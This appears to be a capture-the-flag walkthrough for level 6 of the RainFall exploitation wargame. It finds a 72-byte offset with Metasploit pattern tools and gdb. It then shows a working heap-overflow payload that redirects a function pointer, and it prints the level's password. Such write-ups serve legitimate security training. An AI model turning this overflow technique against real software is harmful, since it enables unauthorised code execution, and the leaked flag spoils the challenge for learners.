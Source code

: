 # Level 6


in this level we have a heap overflow vulnerability, we can overwrite the fun pointer to point to the n function and get the password.

first we need to find the offset, we can do that with metasploit pattern_create and pattern_offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

in gdb we can run the program with the pattern as an argument and check the value of the function pointer.

```bash
(gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

Breakpoint 1, 0x080484c5 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) info registers
eax            0x41346341       1093952321
ecx            0xbffff900       -1073743616
edx            0x804a069        134520937
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff69c       0xbffff69c
ebp            0xbffff6c8       0xbffff6c8
esi            0x0      0
edi            0x0      0
eip            0x41346341       0x41346341
eflags         0x210202 [ IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

the value of the function pointer is 0x41346341, we can use pattern_offset to find the offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q 0x41346341
[*] Exact match at offset 72
```

now we can easily exploit it with the following payload.

```bash
level6@RainFall:~$ ./level6 $(python2 -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
